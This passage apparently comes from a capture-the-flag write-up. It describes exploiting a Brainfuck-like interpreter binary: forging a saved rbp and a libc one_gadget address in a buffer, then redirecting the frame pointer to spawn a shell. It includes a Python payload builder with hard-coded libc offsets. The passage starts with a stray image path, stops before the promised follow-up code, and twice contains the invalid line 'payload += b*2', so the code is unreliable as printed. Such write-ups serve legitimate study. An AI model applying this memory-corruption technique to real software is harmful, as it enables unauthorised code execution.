 If we let the program run normally, the program will get segfault when main return. The idea is to write fake saved rbp, which satisfy the constraint of one_gadget, and fake saved rip, which is the address of one_gadget, to the char array `s` and change saved rbp of lang_interpreter to our fake saved rbp. So first, let's write a writable address and one_gadget to array `s` first:

```python
payload = b''
# Write fake saved rbp
for i in range(0, 48, 8):
    payload += b'+'*( ((libc.address + 0x21a000) >> i) & 0xff)
    payload += b'>'
payload += b*2

# Write one_gadget
libc.sym['one_gadget'] = libc.address + 0xebcf8
for i in range(0, 48, 8):
    payload += b'+'*( (libc.sym['one_gadget'] >> i) & 0xff)
    payload += b'>'
payload += b*2
```

Let's check if we write correctly or not:

![check-one-gadget-address.png](images/check-one-gadget-address.png)

Next, if we change saved rbp of lang_interpreter from `0x007fffffffdfc0` to our fake saved rbp at `0x007fffffffdf10`, we can pass the constraints of one_gadget. Meanwhile, before it executes leave to jump to our one_gadget, it's still in run and the check of `while` loop in run() also pass the check because it will take the address `0x00555555558040` added with `0x104`, check the data of that address and will exit if there is something in it (it's our payload so of course there are somethings in it).

So we will change the saved rbp of lang_interpreter() with this code:
